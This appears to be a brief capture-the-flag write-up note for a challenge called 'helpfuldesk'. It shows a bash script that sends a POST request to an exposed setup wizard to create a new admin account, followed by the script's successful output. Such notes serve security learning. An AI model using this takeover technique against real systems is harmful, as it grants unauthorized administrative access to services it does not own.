







http://challenge.ctf.games:30598/Setup/SetupWizard

after e, need to make a post request with a username and password to login with.
```bash
#!/bin/bash

# Target URL
TARGET="http://challenge.ctf.games:30598/Setup/SetupWizard"

# New admin credentials
USERNAME="pelle"
PASSWORD="grino"

# Send POST request with the new credentials
response=$(curl -s -o /dev/null -w "%{http_code}" \
  -X POST "$TARGET" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "username=$USERNAME" \
  --data-urlencode "password=$PASSWORD")

# Check the response
if [ "$response" -eq 302 ]; then
  echo "New admin user created successfully! Redirected to SetupComplete."
  echo "Try logging in with username: $USERNAME and password: $PASSWORD"
elif [ "$response" -eq 403 ]; then
  echo "Error: Server already set up. Check if credentials.json exists."
else
  echo "Unexpected response code: $response"
fi
```

```bash
$ bash helpfuldesk.sh
New admin user created successfully! Redirected to SetupComplete.
Try logging in with username: pelle and password: grino
```
  
*Created: Nov 3, 14:19*

  
*Created: Nov 3, 14:20*

  
*Created: Nov 3, 14:22*

  
*Created: Nov 3, 14:23*

  
*Created: Nov 3, 14:24*

  
*Created: Nov 3, 14:26*

  
*Created: Nov 3, 14:31*

  
*Created: Nov 3, 14:32*

